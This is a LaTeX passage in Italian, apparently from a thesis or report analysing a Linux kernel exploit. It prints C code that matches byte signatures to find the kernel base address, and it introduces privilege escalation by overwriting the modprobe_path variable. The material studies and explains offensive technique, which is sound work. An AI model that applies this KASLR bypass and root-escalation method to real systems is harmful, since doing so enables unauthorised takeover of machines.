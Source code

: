 \documentclass{article}
\begin{document}
Lo script consente di effettuare un attacco bruteforce per individuare l'indirizzo base del 
kernel. In particolare, genera uno snippet di codice $C$ (mostrato di seguito e che può
essere facilmente esteso per supportare diversi kernel). 

\begin{lstlisting}[language=C,style=CStyle,caption="Signature calcolate con lo script fornito dall'autore dell'exploit"]
static int is_kernel_base(unsigned char *addr)
{
	// thanks python
	
	// get-sig kernel_runtime_1
	if (memcmp(addr + 0x0, "\x48\x8d\x25\x51\x3f", 5) == 0 &&
			memcmp(addr + 0x7, "\x48\x8d\x3d\xf2\xff\xff\xff", 7) == 0)
		return 1;

	// get-sig kernel_runtime_2
	if (memcmp(addr + 0x0, "\xfc\x0f\x01\x15", 4) == 0 &&
			memcmp(addr + 0x8, "\xb8\x10\x00\x00\x00\x8e\xd8\x8e\xc0\x8e\xd0\xbf", 12) == 0 &&
			memcmp(addr + 0x18, "\x89\xde\x8b\x0d", 4) == 0 &&
			memcmp(addr + 0x20, "\xc1\xe9\x02\xf3\xa5\xbc", 6) == 0 &&
			memcmp(addr + 0x2a, "\x0f\x20\xe0\x83\xc8\x20\x0f\x22\xe0\xb9\x80\x00\x00\xc0\x0f\x32\x0f\xba\xe8\x08\x0f\x30\xb8\x00", 24) == 0 &&
			memcmp(addr + 0x45, "\x0f\x22\xd8\xb8\x01\x00\x00\x80\x0f\x22\xc0\xea\x57\x00\x00", 15) == 0 &&
			memcmp(addr + 0x55, "\x08\x00\xb9\x01\x01\x00\xc0\xb8", 8) == 0 &&
			memcmp(addr + 0x61, "\x31\xd2\x0f\x30\xe8", 5) == 0 &&
			memcmp(addr + 0x6a, "\x48\xc7\xc6", 3) == 0 &&
			memcmp(addr + 0x71, "\x48\xc7\xc0\x80\x00\x00", 6) == 0 &&
			memcmp(addr + 0x78, "\xff\xe0", 2) == 0)
		return 1;


	return 0;
}

\end{lstlisting}

Una volta trovato l'indirizzo base del kernel, si può aggiungere un offset per trovare 
la variable \textbf{\textit{modprobe\_path}} per effettuare privilege escalation come mostrato 
in \cref{s:pe-linux}.

\subsection{Privilege escalation in Linux}\label{s:pe-linux}
\subsubsection{Sovrascrittura della variabile \textit{modprobe\_path}}
Una tecnica per effettuare privilege escalation in Linux prevede l'utilizzo del programma 
modprobe. Quando viene eseguito un programma in Linux, sostanzialmente viene invocata 
la system-call \textbf{\textit{execve}} a cui sono passati gli argomenti del programma 
e il nome del file stesso. Se il file non è del formato ELF (header non corrisponde a $0x7FELF$) 
invoca modprobe che cercherà di eseguire il programma come modulo. La funzione di seguito 
mostra il codice della funzione \textbf{\textit{call\_modprobe()}} (tratto da \cite{LinuxDocs})
\end{document}
